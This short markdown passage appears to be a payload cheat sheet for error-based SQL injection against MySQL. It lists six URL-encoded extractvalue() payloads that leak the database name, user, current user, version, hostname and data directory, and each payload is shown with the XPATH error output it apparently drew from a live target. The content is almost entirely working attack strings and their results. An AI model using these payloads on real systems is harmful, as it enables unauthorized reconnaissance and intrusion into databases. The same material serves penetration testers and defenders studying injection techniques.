* **Using database() Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,database()))--+ 
	"sqlMessage":"XPATH syntax error: ':progress28app'"
  

# Using user() Functions
1'+and+1=extractvalue(rand(),concat(0x3a,user()))--+ 
	"sqlMessage":"XPATH syntax error: ':progress28app@172.x.x.28'"

# Using current_user() Functions
1'+AND+1=extractvalue(rand(),concat(0x3a,current_user()))--+
	"sqlMessage":"XPATH syntax error: ':progress28@%'"

# Using version() Functions
1'+and+1=extractvalue(rand(),concat(0x3a,version()))--+ 
	"sqlMessage":"XPATH syntax error: ':5.7.26-log'"

# Using @@hostname Functions
1'+AND+1=extractvalue(rand(),concat(0x3a,@@hostname))--+
	"sqlMessage":"XPATH syntax error: ':ip-xx.x.x.xxx'"

# Using @@datadir Functions
1'+AND+1=extractvalue(rand(),concat(0x3a,@@datadir))--+
	"sqlMessage":"XPATH syntax error: ':/p28dbdata/db/'"
